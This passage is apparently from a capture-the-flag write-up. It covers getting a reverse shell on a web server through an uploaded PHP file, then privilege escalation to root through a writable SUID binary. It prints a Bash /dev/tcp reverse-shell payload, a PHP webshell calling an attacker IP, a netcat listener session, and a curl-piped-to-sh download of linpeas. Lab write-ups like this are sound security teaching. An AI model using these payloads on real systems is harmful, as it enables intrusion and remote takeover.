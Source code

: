#### Payload for reverse shell in Bash
```
bash -i >& /dev/tcp/<YOUR IP>/<YOUR LISTEN PORT> 0>&1
```

Write malicious PHP file just like before but this time we will add the payload in it.

```
<?php system('bash -c "bash -i >& /dev/tcp/192.168.56.1/1337 0>&1"'); ?>
```

Upload and open the file and we will got reverse connection
```
❯ nc -lp 1337
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@63f5b77af313:/var/www/html/administrator/uploads$
```

### Privilege Escalation
#### Reccon using Linpeas
LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts. The checks are explained on book.hacktricks.xyz
- Source: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

We will running this tool by this command
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

We got interesting result in `SUID - Check easy privesc, exploits and write perms` with `You can write SUID file: /bin/bahs`

#### Spawn ROOT
Based on the information, we can spawn `/bin/bash` by it's owner `UID` which is `root`. and all we need to do is type `bahs` to become `root`.

### Read Root Flag
```
bahs
cd /flag
cat root.txt
```

#### FLAG ROOT: ROOT{bed128365216c019988915ed3add75fb}
